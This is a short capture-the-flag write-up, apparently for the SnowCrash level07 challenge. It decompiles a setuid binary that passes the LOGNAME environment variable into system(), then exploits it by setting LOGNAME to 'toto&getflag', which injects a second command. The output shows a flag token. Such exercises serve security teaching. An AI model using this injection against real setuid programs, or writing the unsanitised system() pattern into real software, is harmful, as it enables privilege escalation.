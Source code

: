 ## Solutions

```console
~$ ls -l
-rwsr-sr-x 1 flag07 level07 8805 Mar  5  2016 level07
```

Executable found, owner is flag07
let's exploit it

```c
int main(int argc,char **argv,char **envp)

{
  char *pcVar1;
  int iVar2;
  char *buffer;
  gid_t gid;
  uid_t uid;
  char *local_1c;
  __gid_t local_18;
  __uid_t local_14;
  
  local_18 = getegid();
  local_14 = geteuid();
  setresgid(local_18,local_18,local_18);
  setresuid(local_14,local_14,local_14);
  local_1c = (char *)0x0;
  pcVar1 = getenv("LOGNAME");
  asprintf(&local_1c,"/bin/echo %s ",pcVar1);
  iVar2 = system(local_1c);
  return iVar2;
}
```

`asprintf` allocats and sets `local_1c` with `/bin/echo + getenv("LOGNAME")`  
Then the exec calls `system(local_1c)` and return the value

Lets change the value of LOGNAME to get the flag

```console
~$ env | grep LOGNAME
LOGNAME=level07
~$ export LOGNAME="toto&getflag"
~$ ./level07
Check flag.Here is your token : fiumuikeil55xe9cu4dood66h
```
